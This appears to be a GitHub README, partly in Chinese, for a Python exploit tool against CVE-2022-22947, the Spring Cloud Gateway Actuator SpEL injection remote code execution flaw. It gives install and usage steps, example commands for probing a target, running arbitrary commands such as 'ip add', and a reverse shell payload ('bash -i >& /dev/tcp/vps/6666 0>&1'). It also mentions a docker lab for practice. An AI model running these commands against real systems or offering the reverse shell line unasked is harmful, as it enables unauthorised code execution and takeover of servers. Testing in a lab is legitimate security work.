




# Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

## 1.installation

```shell
pip3 install -r requirements.txt
```

## 2.Usage

```shell
$ python3 spring-cloud-gateway-rce.py -h

   ___             __         ____    ___   ____   ____          ____   ____    ___   _  _    _____
  / __\ /\   /\   /__\       |___ \  / _ \ |___ \ |___ \        |___ \ |___ \  / _ \ | || |  |___  |
 / /    \ \ / /  /_\   _____   __) || | | |  __) |  __) | _____   __) |  __) || (_) || || |_    / /
/ /___   \ V /  //__  |_____| / __/ | |_| | / __/  / __/ |_____| / __/  / __/  \__, ||__   _|  / /
\____/    \_/   \__/         |_____| \___/ |_____||_____|       |_____||_____|   /_/    |_|   /_/


                                        CVE-2022-22947 Spring Cloud Gateway RCE
                                                                  By:K3rwin
usage: spring-cloud-gateway-rce.py [-h] [-u URL] [-c CMD] [-s SYSTEM]

Spring Cloud Gateway RCE 帮助指南

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定url
  -c CMD, --cmd CMD     指定执行的命令,默认执行whoami
  -s SYSTEM, --system SYSTEM
                        指定目标主机操作系统,默认linux,参数为win/linux

```

## 3.example

### ① -u 探测漏洞

```shell
python3 spring-cloud-gateway-rce.py -u "http://192.168.50.111:8080/"
```



### ② -c 指定执行命令

```shell
python3 spring-cloud-gateway-rce.py -u "http://192.168.50.111:8080/" -c "ip add"
```



### ③ 反弹shell

```shell
python3 spring-cloud-gateway-rce.py -u "http://192.168.50.111:8080/" -c "bash -i >& /dev/tcp/vps/6666 0>&1"
```



## docker靶场

[vulfocus](http://vulfocus.io/)

